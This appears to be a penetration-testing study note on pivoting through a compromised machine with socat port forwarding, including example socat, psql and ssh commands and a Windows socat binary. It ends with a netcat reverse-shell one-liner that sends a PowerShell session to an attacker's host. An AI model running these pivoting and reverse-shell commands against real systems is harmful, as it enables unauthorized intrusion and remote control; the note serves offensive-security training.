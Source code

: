 Port forwarding is a tecnique that let one machine "bridge" his connection between two networks. In a case where we want to access to the machine B (a database) that is connected to the machine A (a virtual machine) that is connected to the WAN, we want first to exploit and access the machine A in order to reach the second machine, routable only through the network in which there is the machine A.

## Socat
---

Socat is a useful tool for Port Forwarding. Let's start it in verbose mode with:

```shell
socat -ddd TCP-LISTEN:<KALI-PORT>,fork TCP:<TARGET-MACHINE>:<TARGET-PORT>
```

Next we will connect to it from the Kali VM with the postgresql client that we have only on the kali machine:

```shell
psql -h <TARGET-IP> -p <TARGET-PORT> -U postgres
```

For an SSH forwarding we can use:

```shell
socat -ddd TCP-LISTEN:22,fork TCP:<TARGET-MACHINE>:2222
```

And then we can connect to it via:

```shell
ssh user@<TARGET-IP> -p <TARGET-PORT>
```

### Pre-compiled socat binary for Windows

An useful pre-compiled binary for Windows is [socat-1.7.3.0.exe](https://github.com/tech128/socat-1.7.3.0-windows/tree/master). It has to be run in the folder with all the DLL files. In this way we get a port forwarding from an exploited Windows machine to our Kali machine, and we can connect to the network the Windows machine is connected to.

```powershell
.\socat.exe TCP-LISTEN:2222, TCP:192.168.45.223:4444
```

An example of revshell for this scenario is

```powershell
nc.exe <IP> 2222 -e powershell
```